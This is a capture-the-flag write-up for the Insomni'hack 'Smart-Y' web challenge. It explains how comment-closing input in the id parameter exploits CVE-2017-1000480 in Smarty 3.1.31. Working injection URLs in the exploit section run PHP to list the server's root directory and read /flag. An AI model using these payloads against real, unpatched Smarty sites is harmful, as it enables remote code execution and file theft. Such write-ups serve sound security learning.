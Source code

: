 # Smart-Y

This challenge was the second most flagged Web challenge of the CTF.

## Description

```
Last year, a nerd destroyed the system of Robot City by using some evident flaws. It seems that the system has changed and is not as evident to break now.
http://smart-y.teaser.insomnihack.ch
```

## Recon

The description evokes a previous challenge from Insomni'hack 2017. We
therefore started by looking for the
[writeup](https://terryvogelsang.tech/insomnihack-2017-nerdwar/) of this
challenge. At this point, it seems likely that the website uses the Smarty
framework - which is confirmed by the name of the challenge - and that the
SQLi as well as the template injection from the previous edition have been
patched.

The output of `dirb` indicates that the **smarty** directory exists and contains
the following **changelog.txt** file:

```
===== 3.1.31 ===== (14.12.2016)
  23.11.2016
   - move template object cache into static variables
```

The functionality that was vulnerable to SQL injection through the fetch
function before has been deactivated.
However, the display function is still available:

```php
<?php 

if(isset($_GET['hl'])){ highlight_file(__FILE__); exit; } 
include_once('./smarty/libs/Smarty.class.php'); 
define('SMARTY_COMPILE_DIR','/tmp/templates_c'); 
define('SMARTY_CACHE_DIR','/tmp/cache'); 
  
  
class news extends Smarty_Resource_Custom 
{ 
    protected function fetch($name,&$source,&$mtime) 
    { 
        $template = "The news system is in maintenance. Please wait a year. <a href='/console.php?hl'>".htmlspecialchars("<<<DEBUG>>>")."</a>"; 
        $source = $template; 
        $mtime = time(); 
    } 
} 
  
// Smarty configuration 
$smarty = new Smarty(); 
$my_security_policy = new Smarty_Security($smarty); 
$my_security_policy->php_functions = null; 
$my_security_policy->php_handling = Smarty::PHP_REMOVE; 
$my_security_policy->modifiers = array(); 
$smarty->enableSecurity($my_security_policy); 
$smarty->setCacheDir(SMARTY_CACHE_DIR); 
$smarty->setCompileDir(SMARTY_COMPILE_DIR); 


$smarty->registerResource('news',new news); 
$smarty->display('news:'.(isset($_GET['id']) ? $_GET['id'] : ''));  
```

This version of Smarty is vulnerable to
[CVE-2017-1000480](https://www.cvedetails.com/cve/CVE-2017-1000480/).
Unfortunately, we couldn't find any public exploit for it. After digging through
the repository of Smarty, we identified the [commit](https://github.com/smarty-php/smarty/commit/614ad1f8b9b00086efc123e49b7bb8efbfa81b61)
introducing a patch.


The patch is the following:
```php
-        $output .= "/* Smarty version " . Smarty::SMARTY_VERSION . ", created on " . strftime("%Y-%m-%d %H:%M:%S") .
-                   "\n  from \"" . $_template->source->filepath . "\" */\n\n";
+        $output .= "/* Smarty version {Smarty::SMARTY_VERSION}, created on " . strftime("%Y-%m-%d %H:%M:%S") .
+                   "\n  from \"" . str_replace('*/','* /',$_template->source->filepath) . "\" */\n\n";
```

The patch prevents the user from closing the comment with `*/`.
Since the website uses a version of Smarty that doesn't contain this patch,
we should be able to **close the comment and inject our own code**.

Let's try it.
 
## Exploit
 
1. We start by listing the root directory by visiting the following URL:
http://smart-y.teaser.insomnihack.ch/console.php?id=*/var_dump(scandir(%27/%27));/*

This outputs the following result:
```
 array(28) {
  [0]=>
  string(1) "."
  [1]=>
  string(2) ".."
  [2]=>
  string(3) "bin"
  [3]=>
  string(4) "boot"
  [4]=>
  string(3) "dev"
  [5]=>
  string(3) "etc"
  [6]=>
  string(4) "flag"
  [7]=>
  string(4) "home"
  [8]=>
  string(10) "initrd.img"
  [9]=>
  string(14) "initrd.img.old"
  [10]=>
  string(3) "lib"
  [11]=>
  string(5) "lib64"
  [12]=>
  string(10) "lost+found"
  [13]=>
  string(5) "media"
  [14]=>
  string(3) "mnt"
  [15]=>
  string(3) "opt"
  [16]=>
  string(4) "proc"
  [17]=>
  string(4) "root"
  [18]=>
  string(3) "run"
  [19]=>
  string(4) "sbin"
  [20]=>
  string(4) "snap"
  [21]=>
  string(3) "srv"
  [22]=>
  string(3) "sys"
  [23]=>
  string(3) "tmp"
  [24]=>
  string(3) "usr"
  [25]=>
  string(3) "var"
  [26]=>
  string(7) "vmlinuz"
  [27]=>
  string(11) "vmlinuz.old"
}
```

2. It worked! Now that we got the path to the flag, all that's left is to
actually print it by visiting:
[http://smart-y.teaser.insomnihack.ch/console.php?id=*/var_dump(file_get_contents(%22/flag%22));/*](http://smart-y.teaser.insomnihack.ch/console.php?id=*/var_dump(file_get_contents(%22/flag%22));/*).

Aaaand, here's the flag:

**string(26) "INS{why_being_so_smart-y}"**

## Conclusion

Smart-Y was a really nice challenge, which mainly required to carefully read
a patch. Funnily enough, it seems that the patch is not yet available in a
stable Smarty release.
